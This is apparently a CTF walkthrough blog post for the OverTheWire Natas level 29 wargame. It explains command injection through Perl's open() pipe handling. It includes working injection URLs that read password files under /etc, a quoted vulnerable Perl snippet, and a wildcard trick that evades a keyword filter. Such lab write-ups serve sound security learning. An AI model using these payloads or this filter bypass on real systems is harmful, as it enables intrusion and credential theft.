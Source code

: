 ```yaml
---
layout: post
title:  "Natas Level 28 → Level 29"
date:   2021-06-07 17:23:26
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Wall's wall
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas29 site greets us with leetspeek and a dropdown menu. Selecting any of the "perl underground" options displays a rather long text. Unsurprisingly we see from the URL that the site is using Perl. No source code is available.

The first thing that came to mind was a BlackHat talk named, [The Perl Jam 2: The Camel Strikes Back](https://www.youtube.com/watch?v=BYl3-c2JSL8). This talk covers several flaws in Perl, one of which was an RCE that could be done by appending a pipe to the URL. You can watch a quick explanation start at [22:44](https://youtu.be/BYl3-c2JSL8?t=1364) and ending around 23:16 as to what is happening.

The natas29 site seems a bit sensitive to how the URL is constructed. Unlike the video above, we need to end our command with a semicolon and it must be URL Encoded otherwise, the payload fails. There's no harm or need to URL Encode spaces. Also, we can ignore the filename and start our payload with a pipe.

Enter the following URL into your browser:
```
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat /etc/natas_webpass/natas30%3b
```

Instead of seeing the password, we see **meeeeeep!** Let's change our payload to index.pl to see what's going on.
```
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20index.pl%3b
```

The output is too difficult to look at on the rendered page. View the source for the webpage and you'll see the following:
```perl
if(param('file')){
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($_);
        }
        print "</pre>";
    }
}
```

Here we see the filtering that was responsible for the "meeeeeep!" message. We also see the call to **open()** that allows this attack to work. We also see why we need a semicolon. The code appends **.txt** to the name of the file passed into open().

To get the password we can bypass the filters by using some very basic regex. I've randomly chosen to use replace the letter 't' in natas and used the question-mark operator. The question-mark operator will allow us to match either zero or one character at the given location.

Here's the URL I used
```
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/na?as_webpass/na?as30%3b
```

The site will present you with the password for the next level.